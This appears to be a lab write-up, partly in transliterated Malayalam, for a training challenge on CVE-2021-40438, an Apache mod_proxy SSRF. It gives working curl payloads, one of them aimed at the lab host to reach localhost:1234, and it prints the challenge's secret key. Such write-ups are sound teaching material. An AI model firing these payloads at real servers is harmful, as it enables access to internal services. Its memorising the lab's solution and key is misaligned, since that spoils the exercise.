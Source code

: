 ## Introduction
-->This challenge covers how to trigger a Server-Side Request Forgery by leveraging CVE-2021-40438
-->This challenge covers the vulnerability CVE-2021-40438, this issue can be used to trigger a Server-Side Request Forgery and gain access to internal or external applications.
-->An in-depth analysis of the bug have been written here: [Building a POC for CVE-2021-40438](https://firzen.de/building-a-poc-for-cve-2021-40438).
-->The gist of it is that:
 
-   mod_proxy searches anywhere in the URL instead of at the start of the URL for the handler `unix:`.
  
-   a long URL allows an attacker to set the unix domain socket to null and gets Apache to load the URL following it.
  
-   The final payload looks something like:
```shell
$ curl  "http://[SERVER]/?unix:$(perl -e 'print("A"x7000)')|http://www.google.com/"
```
-->For this challenge, connection reuse has been disabled to make exploitation more reliable. In a live environment, you may have to try multiple times or wait for Apache to be restarted to gain access to interesting services.

# Video Explanation
-->lab open chyuka apol page il kanam : In this challenge, your goal is to gain access to the server running on localhost on port 1234 to get the key for this challenge.
-->ithil parayuna karyamonum enik manasilayita so ee lab complete aakunila
-->ee lab theerkuna curl command ingane aan :
->`curl "http://ptl-b9150bf2-d77a9e7b.libcurl.so/?unix:$(python3 -c 'print("A"*7701, end="")')|http://localhost:1234/"`
-->ingane chyumbol `The key for this challenge is: d6a60d69-b73d-4c44-b910-db9ff9d784af`  enn kanikum.
